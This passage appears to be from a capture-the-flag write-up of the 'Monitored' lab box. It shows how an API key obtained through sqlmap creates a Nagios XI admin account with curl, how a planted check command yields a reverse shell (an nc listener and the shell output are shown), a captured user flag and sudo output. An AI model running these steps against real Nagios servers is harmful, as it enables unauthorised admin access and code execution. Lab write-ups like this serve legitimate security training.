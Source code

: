 ```bash
apikey: "IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1"
```

Use the apikey found in the sqlmap output to create a new admin user: [Link](https://support.nagios.com/forum/viewtopic.php?f=16&t=42923).
```bash
┌──(kali㉿kali)-[~]
└─$ curl -XPOST "<http://10.10.11.248/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1>" -d "username=bruh&password=test&name=Jordan%20McDouglas&email=jmcdouglas@localhost&auth_level=admin"
{
    "success": "User account bruh was added successfully!",
    "user_id": 14
}
```

Now we can login as an administrator.
![Pasted image 20240714210956.png](/images/Pasted image 20240714210956.png){: .normal }


Once authenticated we can navigate to: `Configure > Core Config Manager`. In the command section, we can create a command.
![Pasted image 20240714210951.png](/images/Pasted image 20240714210951.png){: .normal }


Next up, we create a service (select your command) and then we press “run check command” which will execute our command.
![Pasted image 20240714210947.png](/images/Pasted image 20240714210947.png){: .normal }


We now have a shell as the nagios user.
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234 
listening on [any] 1234 ...
connect to [10.10.14.169] from (UNKNOWN) [10.10.11.248] 59354
bash: cannot set terminal process group (70354): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$ id
id
uid=1001(nagios) gid=1001(nagios) groups=1001(nagios),1002(nagcmd)
```

User flag: `a20a34905e29cc4d517337e06aebeace`
```bash
nagios@monitored:~$ cat user.txt
a20a34905e29cc4d517337e06aebeace
```


## Privilege Escalation
Sudo -l output.
```bash
nagios@monitored:~$ sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
```